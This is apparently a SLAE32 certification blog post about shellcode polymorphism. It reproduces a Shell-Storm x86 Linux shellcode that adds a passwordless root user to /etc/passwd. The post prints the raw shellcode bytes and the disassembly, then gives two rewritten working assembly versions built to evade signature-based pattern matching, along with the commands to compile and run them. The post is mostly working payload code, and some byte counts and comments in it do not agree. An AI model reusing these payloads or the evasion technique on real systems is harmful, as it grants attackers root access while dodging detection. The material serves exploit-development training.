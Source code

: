 ```yaml
---
layout: single
title: Shell-Storm Poliphormism
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
The main goal is
Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching 
- The polymorphic versions cannot be larger 150% of the exisSng shellcode 
- Bonus points for making it shorter in length than original

## Linux/x86 - adds a root user no-passwd to /etc/passwd - 83 bytes 
First shellcode is for add uid 0 gid 0 in /etc/passwd, we start from [this shellcode](http://shell-storm.org/shellcode/files/shellcode-548.php) of 83 bytes and try to realize a new smaller shellcode.<br>
```C
/* Linux x86 shellcode, to open() write() close() and */
/* exit(), adds a root user no-passwd to /etc/passwd */
/* By bob from dtors.net */

#include <stdio.h>

char shellcode[]=
		"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x73\x73\x77"
		"\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74"
		"\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89"
		"\xc3\x31\xc0\x31\xd2\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x68\x3a\x3a\x2f\x3a\x68\x3a"
		"\x30\x3a\x30\x68\x62\x6f\x62\x3a\x89\xe1\xb2"
		"\x14\xb0\x04\xcd\x80\x31\xc0\xb0\x06\xcd\x80"
		"\x31\xc0\xb0\x01\xcd\x80";

int
main()
{
        void (*dsr) ();
        (long) dsr = &shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        dsr();
}
```
Now we check the Assembly using ndisasm
```
00000000  31C0              xor eax,eax
00000002  31DB              xor ebx,ebx
00000004  31C9              xor ecx,ecx
00000006  53                push ebx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  66B90104          mov cx,0x401
0000001C  B005              mov al,0x5
0000001E  CD80              int 0x80
00000020  89C3              mov ebx,eax
00000022  31C0              xor eax,eax
00000024  31D2              xor edx,edx
00000026  686E2F7368        push dword 0x68732f6e
0000002B  682F2F6269        push dword 0x69622f2f
00000030  683A3A2F3A        push dword 0x3a2f3a3a
00000035  683A303A30        push dword 0x303a303a
0000003A  68626F623A        push dword 0x3a626f62
0000003F  89E1              mov ecx,esp
00000041  B214              mov dl,0x14
00000043  B004              mov al,0x4
00000045  CD80              int 0x80
00000047  31C0              xor eax,eax
00000049  B006              mov al,0x6
0000004B  CD80              int 0x80
0000004D  31C0              xor eax,eax
0000004F  B001              mov al,0x1
00000051  CD80              int 0x80
```
Ok we have some chances here, first the ```close()``` syscall isn't necessary as we saw in the msfvenon adduser payload, next we can clean some eax and edx register xor and change it with the ```mul``` that do the same thing, last we can change the ```push``` and  ```push dword``` instructions with ```mov```. In this case we have a good polymorphism but the shellcode lenght is 107 bytes against the original 86

```
xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        mov [esp-4], ebx                  ; same as push
        mov dword [esp-8], 0x64777373     ; same as push
        mov dword [esp-12], 0x61702f63    ; same as push
        mov dword [esp-16], 0x74652f2f    ; same as push
        sub esp, 16
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        mov dword [esp-4], 0x68732f6e     ; hs/nib/:/::0:0::resU
        mov dword [esp-8], 0x69622f3a     ;
        mov dword [esp-12], 0x2f3a3a30    ;
        mov dword [esp-16], 0x3a303a3a    ;
        mov dword [esp-20], 0x72657355    ;
        sub esp, 20
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  107

```
If we leave the ```push``` and  ```push dword``` instructions the lenght is 74 bytes, less than original.

```nasm
       xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        push ebx                  
        push dword 0x64777373     
        push dword 0x61702f63    
        push dword 0x74652f2f    
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        push dword 0x68732f6e             ; hs/nib/:/::0:0::resU
        push dword 0x69622f3a             ;
        push dword 0x2f3a3a30             ;
        push dword 0x3a303a3a             ;
        push dword 0x72657355             ;
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  74

```